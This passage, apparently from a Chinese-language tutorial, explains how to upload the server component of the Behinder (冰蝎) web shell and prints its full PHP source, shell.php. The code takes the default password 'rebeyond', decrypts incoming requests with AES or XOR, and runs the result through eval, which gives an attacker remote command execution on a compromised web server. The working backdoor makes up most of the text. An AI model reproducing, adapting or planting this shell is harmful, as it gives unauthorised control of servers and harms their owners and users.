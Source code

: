 server 目录就是用来上传服务端的小马，我们选择上传 shell.php，默认使用连接密码 rebeyond，你可根据需要自行修改，然后用密码 32 位 md5 哈希值替换 key 变量即可。

shell.php 代码如下：

复制代码

```
<?php

@error_reporting(0);

session_start();

    $key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond

	$_SESSION['k']=$key;

	$post=file_get_contents("php://input");  // 读取上传文件内容

	if(!extension_loaded('openssl'))

	{

		$t="base64_"."decode";

		$post=$t($post."");   // 如果没有openssl扩展就调用base64_decode

		

		for($i=0;$i<strlen($post);$i++) {

    			 $post[$i] = $post[$i]^$key[$i+1&15]; 

    			}

	}

	else

	{

        // 如果有openssl扩展就采用AES128位解密，因为冰蝎是加密传输的

		$post=openssl_decrypt($post, "AES128", $key);

	}

    $arr=explode('|',$post);

    $func=$arr[0];

    $params=$arr[1];

	class C{public function __invoke($p) {eval($p."");}}

    @call_user_func(new C(),$params);

?>
```
